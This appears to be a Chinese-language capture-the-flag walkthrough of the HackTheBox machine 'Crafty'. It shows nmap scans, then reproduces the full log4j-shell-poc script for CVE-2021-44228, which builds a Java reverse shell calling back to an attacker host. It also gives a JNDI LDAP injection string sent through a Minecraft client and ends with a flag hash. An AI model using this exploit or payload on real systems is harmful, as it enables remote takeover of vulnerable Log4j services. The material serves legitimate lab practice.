









nmap扫描

```bash
┌──(kali㉿kali)-[~/htb/Crafty]
└─$ nmap -p- --min-rate 10000 10.10.11.249 -oN nmap
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-14 21:30 EST
Nmap scan report for 10.10.11.249 (10.10.11.249)
Host is up (0.29s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT   STATE SERVICE
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 67.38 seconds
```

```bash
┌──(kali㉿kali)-[~/htb/Skyfall]
└─$ nmap -p80,25565 -sC -sV --min-rate 10000 10.10.11.249 -oN nmap2
Starting Nmap 7.92 ( https://nmap.org ) at 2024-02-14 21:30 EST
Nmap scan report for 10.10.11.249 (10.10.11.249)
Host is up (0.37s latency).

PORT      STATE SERVICE   VERSION
80/tcp    open  http      Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Did not follow redirect to http://crafty.htb
25565/tcp open  minecraft Minecraft 1.16.5 (Protocol: 127, Message: Crafty Server, Users: 1/100)
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.86 seconds

```

发现minecraft服务


安装minecraft








（使用16版本的Demo的小bug进入服务器菜单直接连接10.10.11.249:25565）



POC:

https://github.com/kozmer/log4j-shell-poc?tab=readme-ov-file&source=post_page-----1ad9eec96feb--------------------------------

```python
#!/usr/bin/env python3

import argparse
from colorama import Fore, init
import subprocess
import threading
from pathlib import Path
import os
from http.server import HTTPServer, SimpleHTTPRequestHandler

CUR_FOLDER = Path(__file__).parent.resolve()


def generate_payload(userip: str, lport: int) -> None:
    program = """
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;

public class Exploit {

    public Exploit() throws Exception {
        String host="%s";
        int port=%d;
        String cmd="/bin/sh";
        Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
        Socket s=new Socket(host,port);
        InputStream pi=p.getInputStream(),
            pe=p.getErrorStream(),
            si=s.getInputStream();
        OutputStream po=p.getOutputStream(),so=s.getOutputStream();
        while(!s.isClosed()) {
            while(pi.available()>0)
                so.write(pi.read());
            while(pe.available()>0)
                so.write(pe.read());
            while(si.available()>0)
                po.write(si.read());
            so.flush();
            po.flush();
            Thread.sleep(50);
            try {
                p.exitValue();
                break;
            }
            catch (Exception e){
            }
        };
        p.destroy();
        s.close();
    }
}
""" % (userip, lport)

    # writing the exploit to Exploit.java file

    p = Path("Exploit.java")

    try:
        p.write_text(program)
        subprocess.run([os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/javac"), str(p)])
    except OSError as e:
        print(Fore.RED + f'[-] Something went wrong {e}')
        raise e
    else:
        print(Fore.GREEN + '[+] Exploit java class created success')


def payload(userip: str, webport: int, lport: int) -> None:
    generate_payload(userip, lport)

    print(Fore.GREEN + '[+] Setting up LDAP server\n')

    # create the LDAP server on new thread
    t1 = threading.Thread(target=ldap_server, args=(userip, webport))
    t1.start()

    # start the web server
    print(f"[+] Starting Webserver on port {webport} http://0.0.0.0:{webport}")
    httpd = HTTPServer(('0.0.0.0', webport), SimpleHTTPRequestHandler)
    httpd.serve_forever()


def check_java() -> bool:
    exit_code = subprocess.call([
        os.path.join(CUR_FOLDER, 'jdk1.8.0_20/bin/java'),
        '-version',
    ], stderr=subprocess.DEVNULL, stdout=subprocess.DEVNULL)
    return exit_code == 0


def ldap_server(userip: str, lport: int) -> None:
    sendme = "${jndi:ldap://%s:1389/a}" % (userip)
    print(Fore.GREEN + f"[+] Send me: {sendme}\n")

    url = "http://{}:{}/#Exploit".format(userip, lport)
    subprocess.run([
        os.path.join(CUR_FOLDER, "jdk1.8.0_20/bin/java"),
        "-cp",
        os.path.join(CUR_FOLDER, "target/marshalsec-0.0.3-SNAPSHOT-all.jar"),
        "marshalsec.jndi.LDAPRefServer",
        url,
    ])


def main() -> None:
    init(autoreset=True)
    print(Fore.BLUE + """
[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc
""")

    parser = argparse.ArgumentParser(description='log4shell PoC')
    parser.add_argument('--userip',
                        metavar='userip',
                        type=str,
                        default='localhost',
                        help='Enter IP for LDAPRefServer & Shell')
    parser.add_argument('--webport',
                        metavar='webport',
                        type=int,
                        default='8000',
                        help='listener port for HTTP port')
    parser.add_argument('--lport',
                        metavar='lport',
                        type=int,
                        default='9001',
                        help='Netcat Port')

    args = parser.parse_args()

    try:
        if not check_java():
            print(Fore.RED + '[-] Java is not installed inside the repository')
            raise SystemExit(1)
        payload(args.userip, args.webport, args.lport)
    except KeyboardInterrupt:
        print(Fore.RED + "user interrupted the program.")
        raise SystemExit(0)


if __name__ == "__main__":
    main()
```




```
${jndi:ldap://10.10.16.7:1389/a}
```



不让发消息

使用其他方法

https://github.com/ammaraskar/pyCraft





```
91af04e7082335d1ca05e19d51577e71
```


